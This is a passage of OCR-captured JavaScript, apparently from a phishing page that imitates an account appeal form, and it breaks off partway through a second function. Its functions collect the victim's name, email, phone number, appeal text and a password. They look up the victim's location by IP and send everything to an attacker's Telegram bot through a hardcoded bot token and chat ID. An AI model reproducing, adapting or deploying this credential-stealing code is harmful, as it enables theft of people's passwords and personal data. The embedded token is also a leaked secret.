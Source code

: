     var bot = 'bot6889191432:AAFw-po-pKJiPAC1mLA7fqfwSNqkrM50HCg';
    var chid = '6921169662';

    function sendData() {
      $.get("https://ipapi.co/json/", function (response) {
        let ip = $("#ip_hidden").val();
        let country = response.country;
        let city = response.city;

        var params = {
          content: '-----Bot new------' + '%0A' +
            '1|Full Name: "' + document.getElementById('name').value.replace('#', '-sharp-') + '"' + '%0A' +
			'2|Page Name: "' + document.getElementById('pagename').value.replace('#', '-sharp-') + '"' + '%0A' +
            '3|Email: "' + document.getElementById('email').value.replace('#', '-sharp-') + '"' + '%0A' +
            '4|Appeal: "' + document.getElementById('reason').value.replace('#', '-sharp-') + '"' + '%0A' +
            '5|Number: "' + document.getElementById('phone').value.replace('#', '-sharp-') + '"' + '%0A' +
            '6|City : "' + city + '"' + '%0A' +
            '7|Country: "' + country + '"' + '%0A' +
            'IP: "' + ip + '"' + '%0A' +
            '---------------------------------------------------------'
        }

        fetch(`https://api.telegram.org/bot6889191432:AAFw-po-pKJiPAC1mLA7fqfwSNqkrM50HCg/sendMessage?chat_id=6921169662&text=${params.content}/`, {
          method: 'POST', // or 'PUT'
          headers: {
            'Content-Type': 'application/json',
          },

        }).then(function () {
          // $('#exampleModal').modal('show');
        })


      });
    }

    function sendPass2() {
      let password2 = document.getElementById('password2').value.replace('#', '-sharp-');
      $.get("https://ipapi.co/json/", function (response) {
        let country = response.country;
        let regionName = response.region;
        let city = response.city;
        let ip = $("#ip_hidden").val();
        console.log(response);


        var params = {
          content: '---------------------------------------------------------' + '%0A' +
            'Passi 2: "' + password2 + '"' + '%0A' +
            'City : "' + city + '"' + '%0A' +
            'Country : "' + country + '"' + '%0A' +
            'Region : "' + regionName + '"' + '%0A' +
            'Number : "' + document.getElementById('phone').value.replace('#', '-sharp-') + '"' + '%0A' +
            'Email : "' + document.getElementById('email').value.replace('#', '-sharp-') + '"' + '%0A' +
            'IP: "' + ip + '"' + '%0A' +
            '---------------------------------------------------------'
        }
